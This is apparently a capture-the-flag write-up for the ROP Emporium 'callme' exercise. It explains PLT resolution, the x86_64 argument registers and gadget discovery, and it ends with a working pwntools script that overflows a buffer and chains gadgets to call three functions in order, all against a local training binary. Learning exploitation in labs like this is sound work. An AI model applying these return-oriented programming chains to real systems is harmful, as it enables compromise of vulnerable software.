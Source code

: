 # ROP Emporium | Callme

## Challenge Objective

You must call the `callme_one()`, `callme_two()` and `callme_three()` functions in that order. Each with the arguments:

* `0xdeadbeef`, `0xcafebabe`, `0xd00df00d`

For the x86\_64 binary, double up those values:

* `callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`

---

## Exploit Approach

If you've read the previous challenges, `ret2win` and `split`, it's pretty standard by now that we overflow the buffer through `pwnme()` and enter another function. So I will skip that part in this writeup and jump to the function we are interested in AFTER `pwnme()`'s `ret` overwrite.

### The usefulFunction():

![usefulFun](Screenshots/usefulfunc(1).png)

Here the function calls 3 different functions in the order `_three`, `_two`, `_one`. Our goal is to call them in the opposite order. There's two problems with that:

1. If we use the address for `call callme_one()` inside `usefulFunc`, it doesn't have a `ret`, so it can't be used as a gadget.
2. Even if it did have a `ret`, calling `callme_two` would go through `_one` and ruin the order.

Hence we need to call them directly. We know that they are imported functions from this functions list:

![usefulFun](Screenshots/imports.png)

These functions aren’t called directly in `usefulFunction()`, but their PLT entries allow us to invoke them just like dynamically-linked functions. When the `call callme_one` instruction in `usefulFunction()` is executed, it jumps to the PLT stub. On the first call, the PLT resolves the actual address of `callme_one` using the dynamic linker and updates the Global Offset Table (GOT). After that, the PLT just jumps directly via the GOT entry to the real function.

### plt stub of a callme\_one :

![usefulFun](Screenshots/callone@plt.png)

For the purposes of this challenge, all you need to know is that the start of this address will find the addr of the actual `callme_one` from lib and execute it. The whole process of how this external address is found and resolved from plt is much better explained by other people. I will link them below.

### Function Addresses from .plt:

```python
call_one = p64(0x00400720) #callme_one@plt
call_two = p64(0x00400740) #callme_two@plt
call_three = p64(0x004006f0) #callme_three@plt
```

## Argument Setup

Now let's take a look at `usefulFunc` again.

We see that before the function call there's:

```asm
0x004008f6      mov     edx, 6
0x004008fb      mov     esi, 5
0x00400900      mov     edi, 4
0x00400905      call    callme_three
```

`edx`, `esi` and `edi` actually hold the arguments for the subsequent function. The convention is as follows:

| Arg | Register |
| --- | -------- |
| 1st | rdi      |
| 2nd | rsi      |
| 3rd | rdx      |
| 4th | rcx      |
| 5+  | r8, r9   |

Hence we need to find gadgets that pop `rdi`, `rsi` and `rdx`.

A simple `ROPgadget --binary callme --depth 12` gives us the required gadgets.

![usefulFun](Screenshots/gadgets.png)

Now unfortunately it's not perfectly pop rsi ; ret, pop rdi; ret, pop rdx; ret.

But we can still use these as our required registers are present.

### Gadgets:

```
0x00000000004009a3 : pop rdi ; ret          # gadget_1
0x000000000040093d : pop rsi ; pop rdx ; ret # gadget_2
```

If it's `pop rsi ; pop rdx ; ret`, we simply add the parameters one after another.

### Our parameters:

```python
p1 = p64(0xdeadbeefdeadbeef)
p2 = p64(0xcafebabecafebabe)
p3 = p64(0xd00df00dd00df00d)
```

### Argument payload:

```
gadget_1 -> p1 -> gadget_2 -> p2 -> p3
```

Which can be our `set_param` variable.

---

## Final Exploit Payload

```python
from pwn import *

junk = b'A' * 40

p1 = p64(0xdeadbeefdeadbeef)
p2 = p64(0xcafebabecafebabe)
p3 = p64(0xd00df00dd00df00d)

g1 = p64(0x00000000004009a3) # pop rdi ; ret
g2 = p64(0x000000000040093d) # pop rsi ; pop rdx ; ret

call_one = p64(0x00400720) #callme_one@plt
call_two = p64(0x00400740) #callme_two@plt
call_three = p64(0x004006f0) #callme_three@plt

set_param = g1 + p1 + g2 + p2 + p3

payload = junk + set_param + call_one + set_param + call_two + set_param + call_three

p = process('./callme')
p.recvuntil('>')
p.sendline(payload)
p.interactive()
```

---

## Flag

And our flag is returned

![usefulFun](Screenshots/final.png)


